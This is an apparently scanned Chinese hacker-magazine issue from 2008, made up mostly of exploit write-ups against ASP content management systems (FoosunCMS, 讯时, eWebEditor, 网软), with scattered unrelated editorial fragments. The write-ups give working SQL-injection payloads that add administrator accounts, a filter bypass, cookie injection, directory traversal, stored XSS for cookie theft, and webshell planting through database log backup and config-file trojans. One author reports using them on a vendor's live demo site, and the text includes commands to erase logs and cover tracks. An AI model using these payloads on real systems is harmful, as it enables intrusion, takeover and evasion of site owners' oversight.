有些文字，你一拿到手就想先睹为快；有些文字，你没拿到手就开始满怀期待。而断头台系列，无疑这两者都占了边……这是断头台系列的第四集，渐渐地像是主人公之一“文叔”的外篇的感觉，从文字中我们终于知道了他和钟情在一起前的一段往事和那个叫耍贱的女子，明白了文叔是为何如此看待人生。而结尾处提到黑客不为人理解的一面，更让人感到了共鸣。

### 小天温暖 2008

回家真不容易呀！

和往年一样，小编也准备回老家过年，但是由于今年的特大雪灾，导致小编回家的铁路经常一票难求。郴州段出现断电，导致火车瘫痪滞留。虽说此前广铁也有部分路段瘫痪，导致返乡车流进退不得，更沉重的是湖南本地的广州站。由于天气等影响，导致高峰期临近 60W 旅客滞留。

在这个异常冷的冬天里，我们回家难，买票难，坐打折机票虽然很容易买到，但是昂贵的票价也着实让我们担心。不过，大家都在为各自承担责任，工作伙伴们都在为自己、为我们的小爱付出，他们正式地对寒冷的冬天多了些许温暖和感动，谢谢您们。

## 黑客风云榜 0day

**Mystery&Mystar**

- 从本文可以学到：
- 风讯的最新漏洞分析
- webshell 的获取方法

风讯最近漏洞不断，接连爆出了不少 0day，风讯漏洞真有这么多吗？如果真是这样，那我能不能找到一些？抱着试试看的想法，偶地去风讯官方站下载了一套最新的 “FoosunCMS v4.0 sp3” 回来看了下，发现风讯的漏洞还真的不少！

### 一：漏洞分析

先来看看代码，在 Message_box.asp 里有一段代码引起了我的注意，代码如下：

```asp
if Request.Form("Action") = "Del" then
    Dim DelID,StrTmp,StrTmp1
    DelID = request.Form("MessageID")  '取得参数 DelID
    if DelID = "" then                  '判断 DelID 是否为空，如果为空则报错
        strShowErr = "<li>你必须选择一项再删除</li>"
        Call ReturnError(strShowErr,"")
    End if
    if Trim(Request.Form("strAction")) = "drabox" then '如果 DelID 不为空，且取得参数 strAction 等于 drabox 则执行 SQL 语句
        User_Conn.execute("Delete From FS_MF_Message where MessageId in ("&DelID&") and M_ReadUserNumber='"&(Fs_User.UserNumber&"'"))
        ......略......
    Else
        strShowErr = "<li>错误的参数</li>"
        Call ReturnError(strShowErr,"")
        User_Conn.execute("update FS_MF_Message set IsDel=1 where MessageId in ("&DelID&") and M_ReadUserNumber='"&(Fs_User.UserNumber&"'"))
    End if
    strShowErr = "<li>删除短信成功</li>"
    Response.Redirect("lib/Success.asp?ErrCodes="&Server.UrlEncode(strShowErr)&"&ErrorUrl="&...)
    Response.end
End if
```

代码中的 DelID 仅仅判断是否为空就进入 SQL 查询了，不过因为查询语句是 Delete，在 Access 下很难注入，这里在 SQL Server 数据库下测试。本地搭建好测试环境后，注册两个用户 mystery 和 ancjnc，用 mystery 登录，打开“站内消息”→“撰写消息”，用户名填 “ancjnc”，“消息标题”和“消息内容”任意，最后勾选“保存到草稿箱中”，然后发送消息，注意多发几条，如图 1。


发完消息我们打开“草稿箱”，选中一条短信，在删除前打开抓包工具 Winsock Expert 准备抓包，再点击“删除选中的短信”，如图 2。


```http
POST /User/Message_box.asp?type=drabox HTTP/1.1
Referer: http://127.0.0.1/User/Message_box.asp?type=drabox
Host: 127.0.0.1
Content-Length: 39

MessageID=5&Action=Del&strAction=drabox
```

抓到的数据如下：

把上面的数据保存到 1.txt，修改 “MessageID=5” 为 “MessageID=6);insert+into+FS_MF_Admin+(Admin_Name,Admin_Pass_Word,Admin_Is_Super)values('mystery','83aa40baf464c76d',1)--”（MessageID 要为存在的 ID，在草稿箱中，我们把光标移到“发送”处，IE 的状态栏显示的 MessageID=6 后面的数字就是我们要找的 ID，如图 2 框起来的部分；还有这里 SQL 语句的空格要换成 +），数了下，增加了 109 个字符，再修改 “Content-Length: 39” 为 “Content-Length: 148”，保存，用 nc 提交。

```bash
nc -vv 127.0.0.1 80 < 1.txt > 1.html
```

如果返回类似于图 3 的信息，就说明提交成功！跑去后台看了下，发现管理员添加成功！如图 4。无独有偶，在 Photo_Class.asp 的 24-44 行，偶发现了同样的疏忽，参数还是没有做任何过滤就进入 SQL 查询！代码如下：

```asp
if Request.Form("Action")="add_save" then
    set rs=Server.CreateObject(G_FS_RS)
    rs.open "select title,id,UserNumber From FS_MF_PhotoClass where title='"&trim(Request.Form("title"))&"' and UserNumber='"&Fs_User.UserNumber&"'",User_Conn,1,3
    if not rs.eof then
        rs.close:Set rs=nothing
        set User_Conn=nothing:set Fs_User=nothing
        strShowErr = "<li>此相册已经存在！</li>"
        Response.Redirect("lib/error.asp?ErrCodes="&Server.URLEncode(strShowErr)&"&ErrorUrl=../")
        Response.end
    else
        rs.addnew
        rs("title")=replace(trim(request.Form("title")),"'","''")
        rs("UserNumber")=Fs_User.UserNumber
        rs.update
        rs.close:Set rs=nothing
        set User_Conn=nothing:set Fs_User=nothing
        strShowErr = "<li>添加成功！</li>"
        Response.Redirect("lib/Success.asp?ErrCodes="&Server.URLEncode(strShowErr)&"&ErrorUrl=../Photo_Class.asp")
        Response.end
    end if
end if
```


代码中的 “title” 直接 request.Form 后就进入 SQL 查询！此处的注入要比 Message_box.asp 简单得多，无须抓包那么麻烦！用刚刚注册的用户 “mystery” 登录→“我的专栏”→“相册管理”→“相册分类”→“增加分类”，先增加一个分类 “mystery”，然后根据代码，我们构造如下 SQL 语句：

> mystery' 注入 SQL 语句：--

这里没有任何限制哦！想怎么执行就怎么执行，如添加管理员的语句则为：

```sql
mystery'; insert into FS_MF_Admin (Admin_Name, Admin_Pass_Word, Admin_Is_Super) values ('mystery','83aa40a4f464c76d','1')--
```

呵呵，很爽吧？发现这两个漏洞后，我又看了其他的文件，发现 Corp_card.asp、Corp_Card_add_1.asp、Corp_card_Unpass.asp、OpenCorp.asp、Order_Pay.asp、Reg_Contact.asp 同样存在注入漏洞，汗……这……不能说是疏忽了吧？

### 二、实战演示

就拿官方（http://demo.foosun.net）来测试，注册一个用户 “mystery”，登录后增加一个分类 “mystery”，如果不增加一个分类，执行 SQL 的时候会报错，如图 5。


接着来执行：

```sql
mystery'; insert into FS_MF_Admin (Admin_Name, Admin_Pass_Word, Admin_Is_Super) values ('mystery','83aa40a4f464c76d','1')--
```

如上添加一个管理员 “mystery”，密码为 “12345678”，如图 6。返回如图 7 所示，则说明 SQL 执行成功！


明明 SQL 执行成功！跑到官方的后台登录一下，系统参数→配置文件→写入一句话木马→拿下 webshell，如图 8、图 9。


官方站加个管理员，写一句话木马就简单拿下了，是不是其他的站也是这么简单拿下？答案是否定的！偶测试其他站的时候，发现明明存在漏洞，加了管理员后，跑去后台登录，后台却回答：“错误：请检查用户名和密码的正确性”。


Why？后来我通过其他方法入侵了一个站，打开 const.asp 看了下，发现原来是管理员数据库和用户数据库不同库！碰上这种情况怎么办？如果是 2000 的服务器，可以通过读取注册表获得物理路径；2003 则可以通过列目录来得到物理路径，然后通过备份差异获得 webshell！先来测试数据库是否是同一数据库，语句如下：

```sql
mystery' and 1=(select top 1 Admin_Pass_Word from [FS_MF_Admin] where Admin_Name<>'')--
```

若数据库是同一个数据库，就暴出管理员的 MD5 密码；不同库则提示：“对象名 'FS_MF_Admin' 无效。” 如图 10。


接着来列目录，语句如下：

```sql
mystery'; drop table [jm_tmp]; create table [jm_tmp](subdirectory nvarchar(400) NULL, depth tinyint NULL, [file] bit NULL);

mystery'; delete [jm_tmp]; insert [jm_tmp] exec master..xp_dirtree 'C:\',1,1--

mystery' and 1=(select top 1 cast([subdirectory] as nvarchar(400))+char(124)+cast([file] as nvarchar(1))+char(124) from (select Top 1 [subdirectory],[file] From [jm_tmp] ORDER BY [file],[subdirectory]) T ORDER BY [file] desc,[subdirectory] desc)--
```

暴出第一个文件夹名称（或文件名），暴第二个文件夹则把 SQL 语句中第 2 个 top 后面的 1 改成 2 即可，直到暴出的文件夹名称（或文件名）与上次一样就到底了，如图 11 所示。


名称为 “Documents and Settings”，后面的 0 表示为文件夹名称，1 则为文件名。列出了网站物理路径，接着来备份 webshell。

```sql
create table [dbo].[shit_tmp] ([cmd] [image]) -- 创建表

declare @a sysname,@s nvarchar(4000); select @a=db_name();
@s=0x7900690061006F006C007500; backup log @a to disk=@s with init,no_truncate -- log 备份，其中 0x7900690061006F006C007500 为 yiaolu 的 16 进制

insert into [shit_tmp]([cmd]) values(0x3C25657865637574652872657175657374282261222929253E) -- 向 shit_tmp 表插入一句话 <%execute(request("a"))%>

declare @a sysname,@s nvarchar(4000); select @a=db_name(); @s='D:\wwwroot\web\mys.asp'; backup log @a to disk=@s with init,no_truncate -- LOG 备份差异获得 webshell，物理路径为 D:\wwwroot\web

Drop table [shit_tmp] -- 删除表
```

经过上面几步后，访问我们的 webshell，如图 12。

图 12 获得 webshell

这里说下，若你是通过加管理员进后台获得 webshell，走的时候记得做好清理工作，部分语句如下：

```sql
删除管理员 mystery

delete from [FS_MF_Admin] where Admin_Name='mystery'

删除管理员 mystery 登录日志

delete from [FS_MF_Login_Log] where Admin_Name='mystery'

删除管理员 mystery 后台安全日志

delete from [FS_MF_Oper_Log] where Admin_Name='mystery'
```

## 三、结尾

行文仓促，有什么问题欢迎到 NoHack 论坛找我讨论，我的 ID 是：mystery。漏洞过会我将报告给风讯，最后祝大家：新年快乐，万事如意。

> **编辑点评：** 本文说到的风讯的几个漏洞都比较致命，虽然其后面一种情况复杂了些，但如果您掌握了原理，可以进一步地探测和优化，甚至可以写出利用工具。如果您有更好的利用方法，请分享给 NoHack 的朋友们。

## 后记

做完这次直播后，我的脑海里一直对承诺对于黑客圈的评论，还有他的价值观所震撼。人生短暂几十年，都在娱乐圈里混，何必为了几个钱而撕破脸皮，和平地搞得八卦满天飞？很耐人回味……

> 承诺：“好的，没问题！”

小迷接过承诺签完字的单子，邪恶地笑了下！

小迷：“结账单你都签字了，还怕你跑了不成……哈哈！”

小迷那邪恶的笑声回荡在 NoHack 大楼的楼道内，不过这时承诺已然听不到了……

## 讯时 2.90 漏洞剖析

sniperhg [O.S.T]

- 讯时的几个漏洞的分析利用
- 漏洞的修复

哎，回来没几天，网络断了。不知道是那网通给咱断了，还是服务器故障，DNS 分配了 IP，可就是上不了网。还好断网前 DOWN 了个讯时出的 CMS：讯时网站管理系统 2.90，立即进入正题。

### 一、攻击

### 1. 真实的 IP 限制

admin_conn.asp 里有段代码是用来限制 IP 登录的，如果你的 IP 在限制名单里就不能登录，来看看代码吧：

```asp
userip = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
if userip = "" then userip = Request.ServerVariables("REMOTE_ADDR")
// 这两句用来取得用户的 IP，记住是 userip

set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open "select zuziip from [config] where zuziip like '%"&zuziip&"%'", conn,1,1 // 从数据库里查询是否有 zuziip 这个变量，如果有，阻止！
if rs.recordcount<>0 then
  zuziip=rs("zuziip")&chr(13)
  zuziip=replace(zuziip," ","")
  zuziip=replace(zuziip,chr(10),"")
  zzip=split(zuziip,chr(13))
  for i=0 to ubound(zzip)
    if userip=trim(zzip(i)) then
      er=1
    end if
  next
  if er=1 then
    Response.Write "<BR><BR><BR><BR><center><font style='font-size:10.5pt'>对不起你所在 IP 被系统阻止！["&userip&"]</font><BR><BR></center>"
    conn.close:set conn=nothing
    Response.end
  end if
end if
```

大家看出来了吧，userip 是我们的 IP，可拿到数据库里查的是 zuziip。在查询之前没给它赋值，所以 zuziip 默认为空的，SQL 语句就是 `select zuziip from [config] where zuziip like ''`，很显然是查询不到东西，造成任意 IP 即使被管理员打入黑名单，依旧可以登录。

### 2. 跨站发后后台验证不严

如果我们直接在新闻评论处写入跨站代码的话，会有一个过滤函数，看 NewsPL_save.asp 里的代码：

```asp
id=int(chkhtm(trim(request("id"))))
action=trim(request("action"))
username=chkhtm(trim(request("username")))
content=chkhtm(trim(request("content"))) // username 和 content 都用 chkhtm() 函数过滤了
addtime=date()

userip = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
If userip = "" Then userip = Request.ServerVariables("REMOTE_ADDR")

if id<>"" and username<>"" and content<>"" then
  conn.Execute "insert into newspl (username,content,addtime,ip,newsid) values ('"&username&"','"&content&"','"&addtime&"','"&userip&"','"&id&"')" // 写入 username, content, addtime, userip, id 到数据库里
end if
```

我们看到 username 和 content 都用 chkhtm() 函数过滤了，chkhtm() 的原型如下：

```asp
function chkhtm(stra)
  stra=replace(stra,"<","&lt;")
  stra=replace(stra,">","&gt;")
  stra=replace(stra,"'","")
  stra=replace(stra,"\"","")
  stra=replace(stra," ","&nbsp;")
  stra=replace(stra,"%","％")
```## 正视黑客手册 2008.03 →【新闻练练看】

```vb
stra=replace(stra,"<","＜")
chkhm=stra
end function
```

过滤了 `<` 和 `>` 两个符号，这样我们跨站就没得搞了。但是，后台有个文件没有 include `admin_chk.asp`，我们可以直接访问 `admin_news_pl_view.asp` 这个文件。这个文件可以修改用户对某个新闻做的评论，但是我们得知道这个评论的 ID 号，漏洞代码如下：

```vb
id=trim(request("id"))
action=trim(request("action"))
editcontent=trim(request("editcontent"))

if action="save" and id<>"" and editcontent<>"" then
    conn.Execute "update [newspl] set [content]='"&editcontent&"' where id="&clng(id)
end if
```

`editcontent=trim(request("editcontent"))` 是直接接收的，只用了 `trim()` 来过滤两边的空格而已。ID 号我们可以一个个试，我拿 ID=1 来测试，访问 `http://127.0.0.1/test/admin_news_pl_view.asp?id=1`，我先写评论是 `111`，如图 1。这里我们修改为 `<script>alert('/hacked By sniperhg/')</script>`，然后我们找到相应的新闻页面去，如图 2。


弹出框框了，当然，管理员在后台管理评论的时候也会弹出来，如图 3。讯时登录后台后是会把用户名和密码写进 COOKIE 的，这个时候我们跨站就用那个偷 COOKIE 的 ASP 文件就可以知道管理员的密码了。虽然得到的是 MD5 值，但是后台验证也是 COOKIE 验证的，我们可以欺骗进后台。


还有一个文件，`utg.asp`，投稿文件也是存在跨站的：

```vb
adduser=chkhtm(trim(Request("adduser")))
email=chkhtm(trim(Request("email")))
title=chkhtm(trim(Request("title")))
content=trim(Request("content"))
lm=chkhtm(trim(request("lm")))
addtime=date()
...
nr=content
nr=replace(nr,chr(10),"<BR>")
conn.Execute "insert into [usertougao] ([title],[adduser],[content],[ip],[addtime],[lmid]) values ('"&title&"','"&adduser&"','"&nr&"','"&userip&"','"&addtime&"','"&lm&"')"
```

`content` 没有进行过滤直接进数据库了。而这个东西还只是给管理员看的，这样，管理员不想死都不行了。

## 3. 注入漏洞

当然，一个程序最好利用的也是我们大家最爱利用的就是注入漏洞了。讯时到现在我认为很稳定了，没想到还是有很多文件有这个问题，这里我指出最容易利用也最容易看出来的一个，`RssNews.asp`：

```vb
lm=trim(Request("lm"))
if lm="" then lm=0
set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open "select * from [lm] where id="&lm&" order by id desc",conn,1,1
if rs.recordcount<>0 then
    lmname=rs("lm")&rs("lm2")&rs("lm3")
else
    lmname="所有栏目"
end if
```

`lm` 没有用 `chkhtm` 来过滤导致可以注入，但是这里不能用工具来注入，因为在 `admin_conn.asp` 里有如下代码：

```vb
sss=LCase(request.servervariables("QUERY_STRING"))
if instr(sss,"select ")<>0 or instr(sss,"insert ")<>0 or instr(sss,"delete")<>0 or instr(sss,"'")<>0 or instr(sss,"|")<>0 then
    response.write "<BR><BR><center>你的网站不合法"
    response.end
end if
```

当我们提交的 URL 里包含有 `select`、`insert`、`delete`、`'`、`|` 这些词中的一个的话，就显示“你的网站不合法”了。我们手工测试一下。`and 1=1` 和 `1=2` 返回的页面，如图 4、图 5。`and 1=1` 的时候标题是“国内新闻”，`and 1=2` 时候标题就变成了“所有栏目”，但是 `select` 这个重要的东西我们用不了，难道对这个好用的注入点束手无策么，答案是否定的。


lake2 大哥已经分析过了以前那个枫叶的通用防注入程序，当用 `request.servervariables("QUERY_STRING")` 来获取 URL 里的参数时，它不会自己将编码转化，我们提交的是什么它接收到的也就是什么，所以我们可以给 `select` 来重新编码，在 URL 里 `select` 写成 `%73elect` 也是可以正确访问的，所以 `sss` 里包含了 `%73elect`，但是 `%73elect` 是不等于 `select` 的，我们就这样绕过了这个防注入代码。

这个注入点是可以利用 union 来方便我们查询的，如图 6。`lm` 里有 8 个字段，所以我们 `select 1` 一直到 8，`2、4、5` 是 3 个标题，但是它们连在一起有点考眼力，将 `2、4` 分别替换成 `user` 和 `pass`，得到图 7 的结果。


如果觉得看不清楚我们就一个一个替换也成，拿到密码的 MD5 我们可以拿到 cmd5.com 去破解，或是 COOKIE 欺骗就可以进后台了。


有备份功能，传个图片备份成马那就不用我演示了。

## 4. 鸡肋暴库

`admin_conn.asp` 这样写的：

```asp
'前面是防注入代码
xuasmdb="data/#db1.asp"

set conn=server.CreateObject("adodb.connection")
DBPath = Server.MapPath(xuasmdb)
conn.open "provider=microsoft.jet.oledb.4.0; data source="&DBPath

ON ERROR RESUME NEXT
'下面是那个猪写的IP限制
```

**ON ERROR RESUME NEXT** 加在了数据库连接语句之前，如果在 `ON ERROR RESUME NEXT` 之前程序就出错了，页面就停止了，而把错误显示在了我们面前，`ON ERROR RESUME NEXT` 却没有执行，没有执行也就说明暴库成功了，如图 8。

但是默认数据库是 ASP 的，加了防下载表，我们下载不了，但是如果是 MDB 就方便了我们，大家看运气咯。


## 二、防御

- 1. 真正实现 IP 限制
- 2. 跨站防御
- 3. 注入防御
- 4. 防止暴库
- 5. 后台验证

```sql
select zuziip from [config] where zuziip like '%"&zuziip&"%'
```

`conn,1,1` 里的 `zuziip` 改为 `userip`。

变量均用 `chkhtm()` 函数过滤。

`lm=trim(Request("lm"))` 之后检查 `lm` 是否为数字，即：

```asp
if isnumeric(lm)<>1 then
  response.write "error!"
  response.end
end if
```

或是改一下那个防注入的代码，用 neeaoa 大哥那个就不错嘛。

`ON ERROR RESUME NEXT` 写在数据库连接之前，OK。

请 include 上 `admin_chk.asp` 文件，谢谢。

我以为发展这么久了，讯时应该安全一点了，可今天一看，漏洞多得让人汗颜啊。2008 年了，大家都要努力了！最后说一点，最新的貌似到了 3.1，我看了下，注入漏洞给补了，但其他的漏洞一个没落下，COOKIE 欺骗还可以玩玩的。

> 编辑点评：
>
> 讯时的这几个漏洞也真是够让人汗颜的，特别是那个 IP 限制，让人哭笑不得，另外的几个注入漏洞也真的再不能说是“疏忽”了。

## 利用列目录漏洞突破讯时新闻系统

> 冰域剑客

- 从本文可以学到：
- 1. 列目录漏洞的探测和利用
- 2. eWebEditor 的漏洞

讯时各个版本都已经出过很多漏洞了，但今天我要讲的是利用讯时的一个列目录漏洞进行突破。之前在入侵一个网站时发现它使用了讯时新闻系统，于是想到了利用 Cookies 注入漏洞进入后台，传马，解决问题。不过事实并没有想像的那么顺利，备份页面被管理员删除了，于是就有了此次突破。

## 一、Cookies 注入进后台

因为很多朋友对讯时 Cookies 注入漏洞还不是很熟悉，我就赘述一下：首先打开老兵的 Cookies 修改工具，点一下那个黄色的小锁进行自定义 Cookies 设置，填上这样的 Cookies：

```text
JTKZFVDPVEBHFOXWVVGCTU=ETYWDZCIZFVAJWFOHMCNENWRCRVNZUYYVJZKUYRS;
adminuser=admin;
adminpass=%27or%27%3D%27or%27;
adminid=1
```

我们在这里是把 `adminpass` 的值变成 `'or'='or'`，实现了注入。在地址栏里直接访问后台地址，就可以进入了。如果第一次没有进入，可以再刷新或者填上后台地址多试几次。我很轻松地进入了后台，如图 1。


大家可以自己在本地或者空间上传个讯时的程序来获得 Cookie 样本，然后修改其中的 `adminpass` 值为 `%27or%27%3D%27or%27`。

## 二、列目录漏洞进行突破

进入后台以后直接上传了一张由 ASP 马保存为的图片，点备份进行习惯性的操作。可惜点了备份之后出现的是一个“无法找到该页”的提示，看来备份页面已经被管理员删除了。

进了后台却得不到 shell，怎么也不会甘心啊。于是左后台里翻看各个页面。当翻到上传文件管理时我心里有了疑惑，会不会有列目录漏洞呢？因为很多管理文件的页面都是需要由客户端提交文件夹名称的，如果没有对提交的名称进行过滤，就形成了漏洞。

查看地址格式 `Admin_UploadFile.asp?id=46`，心一冷，看来是将路径保存在数据库里了。再翻下一页，出现了 `Edit/Admin_UploadFile.asp?id=46&dir=&page=2`。大家看出来了吗？有一个 `dir` 的变量，那么肯定就是从客户端获取文件夹名称和相对路径了。我立即将地址栏中的地址换成了 `Admin_UploadFile.asp?id=46&page=2&dir=`，将 `dir` 放到后面是为了便于修改。我在 `dir` 后面添了一个 `/../`，变成 `Edit/Admin_UploadFile.asp?id=46&dir=/../`，程序出错，如图 2。


出现了 eWebEditor 的根目录所有文件。成功了，也就是说程序没有对提交的路径中的点号和 “/” 进行过滤。既然我们在这里拿不到 shell，那么可以到主页去瞧瞧有没有可以利用的。我再次修改 `dir` 为 `../../..`，顺利地进入了站点主目录。当然，后面的突破就是利用下载数据库进入主后台，然后拿 shell 了，这个不是本文的重点。

eWebEditor 时又有新路子了。例如有些时候数据库不能更新，我们可以利用列目录来找其他可以利用的地方。希望大家好好利用这个漏洞，我的 QQ：309725573，欢迎大家与我交流。


> （文章用到的老兵的 Cookies 修改工具已经收录在光盘中）

**编辑点评：** 有封锁就有突破，技术往往就在此过程中一步步地提高，本文就是在遭到“封锁”后经过仔细的探测寻找到的一条光明大道。最后找到原来其实突破口是由 eWebEditor 造成的，下次大家突破 eWebEditor 的时候可要多留个心眼。

## 三、原来是 eWebEditor 的漏洞

因为讯时是使用的 eWebEditor 编辑器，我就想到底是讯时作者自己修改后造成漏洞还是 eWebEditor 自身的漏洞呢？经过测试，居然是 eWebEditor 自身的漏洞，如图 3。所有的 eWebEditor 都存在这个漏洞，看来大家以后在利用……

## 香小菜是如何刺穿网软的咽喉

□ 小帅 @ [O.S.T] / 杭州民山中学

- 从本文可以学到：
- 1. 网软的 SQL 注射漏洞
- 2. XSS 漏洞
- 3. 后台拿 webshell 的方法

最近写下的特别大，小菜我看书也看得迷糊，上网溜达看到了一个企业整站程序，哇，那个下载次数真高，如图 1。


吓了我一跳，5 位数的，嘿嘿，不错，down 下来分析玩，于是乎我们开始小菜鸟的漏洞发掘之旅咯！

上次看到“初学者”分析网软天下还是不错的，运用 XSS 来拿到 webshell，有没有想下更好的办法？接着我给大家分析下最新的版本，它存在什么漏洞，怎么利用，怎么修复……

## 1、userLogin.asp 的 or 注入

or 注入，我们在这小小地讲一下，文章虽然没涉及到 or 注入，但是可以拿来做一个例子。

```asp
<%
dim sql
dim rs
dim username
dim password
username=replace(trim(request["username"]),"'","")
password=replace(trim(Request["password"]),"'","")
password=md5(password)
set rs=server.createobject("adodb.recordset")
sql="select * from [User] where LockUser=False and username='" & username & "' and password='" & password & "'"
rs.open sql,conn,1,3
if not(rs.bof and rs.eof) then
    if password=rs("password") then
        rs("LoginIP")=Request.ServerVariables("REMOTE_ADDR")
        rs("LastLoginTime")=now()
        rs("logins")=rs("logins")+1
        rs.update
        session("UserName")=rs("username")
Response.Redirect "index.asp"
end if
end if
rs.close
conn.close
set rs=nothing
set conn=nothing
%>
```

我们假设它没过滤单引号的情况下，`sql="select * from [User] where LockUser=False and username='" & username & "' and password='" & password & "'"` 这句话就变成了罪恶的根源。很多小菜知道 or 注入，但是却不知道原理，我说一下，最简单的逻辑符问题。我们把 `'or'='or'` 代入后的结果是 `sql="select * from [User] where LockUser=False and username='or'='or'' and password='or'='or''"`，这样查询语句就变成了假 or 真 or 假 and 假，继续计算，假 or 真为真，真 or 假为真，最后为真。这个是一个小小的原理，因为程序员把 `username` 和 `password` 放在了一起。

> （小编注解：你可以仔细看看上面那段代码的下面一段，是将输入密码和 SQL 查询出来的密码做比较的判断所导致的。）

## 2、无视防护的 Cookie 注入

我把第 2 个目标转到了防注入攻击的 `che_sql.asp` 这个堡垒上，代码如下：

```asp
<%
Dim Query_Badword,Form_Badword,i,Err_Message,Err_Web,name
'——— 定义防护 ———
Err_Message = 1
'处理方式：1=提示信息，2=转向页面，3=先提示再转向
Err_Web = "Err.Asp"
Query_Badword = "| and |'| select | update | chr | delete | %20from | insert | mid | master | set | chr(37) | ="
'在这部分定义 get 非法参数，使用 # 号间隔
Form_Badword="|--|%8|&|*|;|!|[|]|)=("
'在这部分定义 post 非法参数，使用 # 号间隔
On Error Resume Next
'——— 对 get query 值的过滤 ———
if request.QueryString<>"" then
  Chk_badword=split(Query_Badword,"|")
  FOR EACH Query_Name IN Request.QueryString
    for i=0 to ubound(Chk_badword)
      If Instr(LCase(request.QueryString(Query_Name)),Chk_badword(i))<>0 Then
        Select Case Err_Message
          Case "1"
            Response.Write "<Script Language=JavaScript>alert('传参数错误！参数“&name&”的值中包含非法字符串！\n\n请不要在参数中出现 and update delete insert mid master 等非法字符！');window.close();</Script>"
          Case "2"
            Response.Write "<Script language=JavaScript>location.href='"&Err_Web&"'</Script>"
```

```asp
Case "3"
Response.Write "<Script Language=JavaScript>alert('传参错误! 参数 '&name&' 的值中包含非法字符！ \n\n请不要在参数中出现：and、update、delete、insert、mid、master 等非法字符！');location.href='"&Err_Web&"'</Script>"
End Select
Response.End
End If
NEXT
NEXT
End If

'——对 post 表单值的过滤
If Request.Form<>"" Then
  Chk_badword=Split(form_Badword,"|")
  FOR EACH name IN Request.Form
    For i=0 To UBound(Chk_badword)
      If Instr(LCase(Request.Form(name)),Chk_badword(i))<>0 Then
        Select Case Err_Message
        Case "1"
          Response.Write "<Script Language=JavaScript>alert('出错了! 表单 '&name&' 的值中包含非法字符！ \n\n请不要在表单中出现：% & * # ( ) 等非法字符！');window.close();</Script>"
        Case "2"
          Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
        Case "3"
          Response.Write "<Script Language=JavaScript>alert('出错了! 参数 '&name&' 的值中包含非法字符！ \n\n请不要在表单中出现：% & * # ( ) 等非法字符！');location.href='"&Err_Web&"'</Script>"
        End Select
        Response.End
      End If
    NEXT
  NEXT
End If
%>
```

在这不难看出，badword 里并没有包括“'”这个字符，也就是说我们在第 1 个问题的时候，那个 or 注入是成立的。我们来看整个防注入代码。整个防注入代码主要是针对 get 和 post 的攻击进行了拦截，并会记录下 IP。但是别忘了我们的终极武器：cookie 注入，无情的 cookie 注入无视了强大的防御，直刺敌人心脏，如图 2。

没有买过《黑客手册》的同志，还不去买？我在这就重新上演一次 cookie 注入，首先打开我们的 GreenBrowser，如图 3，出现“数据库连接错误”，接着我们用 cookie 注入，参数如图 4 所示。

这个地方和 union 查询差不多，都是 select 1,username,password,4,5,6,7,8,9,10 from admin。然后就刷新下当前页面露出 MD5 咯。接下来看后台配置吧，如图 5。

看来去改一个网站信息配置是可以的，我们来看一下 inc/config.asp 里是怎么写的吧。

```asp
<%
Const SiteName="公司企业网站管理系统正式版_网域高科公司企业网站管理系统中文版;企业公司网站系统 SQL版;企业网站管理系统;企业网站源码;公司企业网站模板;公司企业网站自助建站管理系统源码.......网站名称"
Const SiteTitle="公司企业网站管理系统正式版, 网域高科公司企业网站管理系统中文版,企业公司网站系统SQL版,企业网站管理系统,企业网站源码;公司企业网站模板,公司企业网站自助建站管理系统源码.....网站标题"
Const SiteUrl="http://www.wrtx.cn/qywz4"   '网站地址
Const EnterpriseMail="http://mail.wrtx.cn"  '企业邮箱
Const LogoUrl="images/logo.gif"            'Logo地址
Const BannerUrl="images/wrtxcn.swf"        'Banner地址
Const High="214"                           '高度
Const IsFlash="Yes"                        '是否为FLASH
Const WebmasterName="网域天空科技"        '站长姓名
Const WebmasterEmail="webmaster@wrtx.cn"   '站长信箱
Const Copyright="Copyright© 1999-2008 网域天空信息技术有限公司. All rights reserved."
%>
```

我们来看，原来程序员不让我们修改内容，便利用 const 来“固定”住了，没事。我们来注释掉写进一句话木马吧，因为默认情况下我们的 inc/config.asp 是不可能被换掉的，重要的文件嘛。我们在“网站配置”里写入“" %><%execute request("#")%><%”，如图 6。

这样的话，我们来看下 inc/config.asp 有没有错误提示，就知道我们的一句话有没有成功进去了，如图 7。

非常成功地把一句话木马写到了 inc/config.asp 里头，提示“类型不匹配：'execute'”，我们的一句话已经开始窃听信息了。接着，我们只需要把自己的木马放上去，或者用 lake2 连接便能得到网站的 webshell 了，是不是很简单呢？当然也有遗憾的，万一 cookie 注入企图的 MD5 比较强壮怎么办？这些大家再玩的时候要事先考虑周全了。官方的 webshell，很遗憾，没有能拿到，因为 IIS 设置成了“只读”，没办法拿到 webshell。

图 7 成功写入一句话木马

## 3、XSS 跨站攻击

页面 Feedback.asp 对入库的字符并没有过滤。代码如下：

```asp
<%
If Request.Form("CompanyName")="" Then
  Response.Write("<script language='JavaScript'>alert('错误：您没输入公司名称，请返回检查！');history.go(-1);</script>")
  Response.End
End If
If Request.Form("Receiver")="" Then
  Response.Write("<script language='JavaScript'>alert('错误：您没输入联系人，请返回检查！');history.go(-1);</script>")
  Response.End
End If
If Request.Form("Phone")="" Then
  Response.Write("<script language='JavaScript'>alert('错误：您没输入联系电话，请返回检查！');history.go(-1);</script>")
  Response.End
End If
If Request.Form("title")="" Then
  Response.Write("<script language='JavaScript'>alert('错误：您没输入标题，请返回检查！');history.go(-1);</script>")
  Response.End
End If
If Request.Form("content")="" Then
  Response.Write("<script language='JavaScript'>alert('错误：您没输入留言内容，请返回检查！');history.go(-1);</script>")
  Response.End
End If
Add=Trim(Request.Form("Add"))
Postcode=Trim(Request.Form("Postcode"))
Mobile=Trim(Request.Form("Mobile"))
Fax=Trim(Request.Form("Fax"))
Email=Trim(Request.Form("Email"))
If Add="" Then
  Add=Null
End If
If Postcode="" Then
  Postcode=Null
End If
If Mobile="" Then
  Mobile=Null
End If
If Fax="" Then
  Fax=Null
End If
If Email="" Then
  Email=Null
End If
Set rs=Server.CreateObject("ADODB.Recordset")
sql="select * from Feedback"
rs.Open sql,conn,1,3
rs.AddNew
If Session("username")="" Then
  rs("Username")="未注册用户"
Else
  rs("Username")=Trim(Request.Form("Username"))
End If
rs("CompanyName")=Trim(Request.Form("CompanyName"))
rs("Add")=Add
rs("Postcode")=Postcode
rs("Receiver")=Trim(Request.Form("Receiver"))
